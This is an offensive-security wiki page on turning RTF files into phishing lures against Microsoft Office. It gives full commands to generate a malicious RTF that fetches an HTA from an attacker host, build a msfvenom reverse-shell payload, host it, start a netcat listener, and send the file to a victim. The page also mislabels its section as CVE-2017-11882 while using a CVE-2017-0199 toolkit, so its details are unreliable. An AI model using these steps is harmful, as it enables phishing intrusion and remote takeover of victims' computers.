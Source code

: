 # MS Word - RTF Files

## Theory

RTF files are widely used in business communications for their rich formatting capabilities, making them a perfect disguise for malicious payloads. CVE-2023-21716 and CVE-2017-11882 are vulnerabilities within Microsoft Office that can be leveraged to execute arbitrary code when victims open a compromised RTF file.

The page is about weaponize RTF files for effective phishing campaigns

## Practice

### CVE-2017-11882&#x20;

{% tabs %}
{% tab title="Exploit" %}
We may use [this exploit](https://github.com/bhdresh/CVE-2017-0199) (python) which provides a quick and effective way to exploit Microsoft RTF RCE vulnerability.

Firts, generate the malicious RTF file

```bash
python2.7 cve-2017-0199_toolkit.py -M gen -w bad.rtf -u http://<ATTACKING_IP>/bad.hta -t RTF -x 0
```

The exploit will call and execute an HTA file, you may generate it as follow

```bash
msfvenom -p windows/shell/reverse_tcp LHOST=<ATTACKING_IP> LPORT=<ATTACKING_PORT> -f hta-psh -o bad.hta
```

Host `bad.hta` on your webserver and start a listener

```bash
#Start the webserver to host the bad.hta file
python3 -m http.server 80

#Start listener
rlwrap nc -lvnp <ATTACKING_PORT>
```

Finally, send the `bad.rtf` file to the target. Once victim will open malicious RTF file, you will get a reverse shell.
{% endtab %}
{% endtabs %}


